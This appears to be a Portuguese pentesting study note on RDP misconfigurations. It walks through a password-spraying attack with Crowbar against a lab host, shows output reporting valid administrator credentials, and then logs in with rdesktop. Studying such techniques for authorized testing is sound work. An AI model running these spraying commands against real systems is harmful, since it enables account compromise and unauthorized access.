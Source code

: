 #redes #protocolo 

# configurações incorretas do RDP

Como o RDP utiliza credenciais do usuário para autenticação, um vetor de ataque comum contra o protocolo RDP é a adivinhação de senha. Embora não seja comum, podemos encontrar um serviço RDP sem senha se houver uma configuração incorreta.

> Uma advertência sobre a adivinhação de senha em instâncias do Windows é que você deve considerar a política de senha do cliente. Em muitos casos, uma conta de usuário será bloqueada ou desativada após um certo número de tentativas de login malsucedidas. Nesse caso, podemos realizar uma técnica específica de adivinhação de senha chamada `Password Spraying`. Essa técnica funciona tentando uma única senha para vários nomes de usuário antes de tentar outra senha, tomando cuidado para evitar o bloqueio da conta.

Usando a ferramenta [Crowbar](https://github.com/galkan/crowbar) , podemos realizar um ataque de pulverização de senha contra o serviço RDP. Como exemplo abaixo, a senha `password123` será testada em uma lista de nomes de usuário no arquivo `usernames.txt`. O ataque encontrou as credenciais válidas como `administrator`: `password123` no host RDP de destino.

### Crowbar - Pulverização de senha RDP

```sh
$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

Também podemos usar `Hydra` para realizar um ataque de pulverização de senha RDP.

### Login RDP

```sh
$ rdesktop -u admin -p password123 192.168.2.143

Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses an invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.
     Issuer: CN=WIN-Q8F2KTAI43A

Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate, the connection atempt will be aborted:

    Subject: CN=WIN-Q8F2KTAI43A
     Issuer: CN=WIN-Q8F2KTAI43A
 Valid From: Tue Aug 24 04:20:17 2021
         To: Wed Feb 23 03:20:17 2022

  Certificate fingerprints:

       sha1: cd43d32dc8e6b4d2804a59383e6ee06fefa6b12a
     sha256: f11c56744e0ac983ad69e1184a8249a48d0982eeb61ec302504d7ffb95ed6e57

Do you trust this certificate (yes/no)? yes
```

![[Pasted image 20240502090251.jpg]]